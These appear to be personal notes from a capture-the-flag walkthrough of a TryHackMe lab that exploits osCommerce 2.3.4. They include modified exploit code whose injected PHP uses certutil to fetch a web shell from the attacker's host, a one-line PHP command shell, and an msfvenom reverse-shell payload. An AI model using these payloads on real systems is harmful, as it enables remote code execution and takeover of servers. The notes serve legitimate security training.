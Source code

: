so first i went to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/admin/login.php and created a `admin:admin` login and then ran the command again and this was also not working

---
- used this writeup now https://cd6629.gitbook.io/pentest-research/windows-ctfs/blueprint-w

- used this exploit https://www.exploit-db.com/exploits/44374

- Made following chanages in the exploit 
```
base_url = "http://10.10.220.55:8080/oscommerce-2.3.4/catalog/"
target_url = "http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/install.php?step=4"


payload = '\');'
payload += '$var = shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.17.24.189:8000/shell.php shell.php & nslookup test 10.17.24.189");'    # this is where you enter you PHP payload
payload += 'echo $var;'
payload += '/*'
```

- started my own python webserver 

- created a shell.php file with the contents
```
   │   ~/Desktop/THM/blueprint ▓▒░ cat shell.php                                                              
<?php echo shell_exec($_GET["cmd"]); ?>
```

- now running the exploit
```
sudo python3 44374.py                                                            ░▒▓ ✔ │ 36s   │ 23:05:49   
[+] Successfully launched the exploit. Open the following URL to execute your code

http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/configure.php
```

- now we have to go to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes select the shell.php file and change the url to http://10.10.220.55:8080/oscommerce-2.3.4/catalog/install/includes/shell.php?cmd=whoami

we get `nt authority\system` this means the exploit has worked success fully


- now created a windows reverse shell exe file using
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#windows-stageless-reverse-tcp


and ran this command 

```
[msf](Jobs:0 Agents:0) >> msfvenom -p windows/shell_reverse_tcp LHOST=10.17.24.189 LPORT=4444 -f exe > reverse.exe
```


